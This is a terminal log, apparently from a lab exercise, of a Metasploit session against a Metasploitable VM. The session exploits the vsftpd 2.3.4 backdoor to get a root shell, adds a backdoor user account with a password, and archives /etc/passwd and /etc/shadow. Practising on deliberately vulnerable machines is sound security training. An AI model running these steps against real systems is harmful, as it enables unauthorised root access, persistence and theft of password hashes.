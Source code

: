 ```
                                                                                                                                                 
                                                                    .                                                                            
                .                                                                                                                                
        o                  To boldly go where no                                                                                                 
                            shell has gone before                                                                                                
                                                                                                                                                 

       =[ metasploit v6.3.4-dev                           ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post       ]
+ -- --=[ 968 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.12.133
RHOST => 192.168.12.133
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.12.133:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.12.133:21 - USER: 331 Please specify the password.
[+] 192.168.12.133:21 - Backdoor service has been spawned, handling...
[+] 192.168.12.133:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.12.131:46743 -> 192.168.12.133:6200) at 2023-05-02 23:05:00 -0400

id
uid=0(root) gid=0(root)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
whoami
root
adduser newuser
Adding user `newuser' ...
Adding new group `newuser' (1003) ...
Adding new user `newuser' (1003) with group `newuser' ...
Creating home directory `/home/newuser' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: anewuser
Retype new UNIX password: anewuser
passwd: password updated successfully
Changing the user information for newuser
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
y
Is the information correct? [y/N] y
sh: line 10: y: command not found
cd /home/newuser
tar czvf user.tgz /etc/passwd /etc/shadow
tar: Removing leading `/' from member names
/etc/passwd
```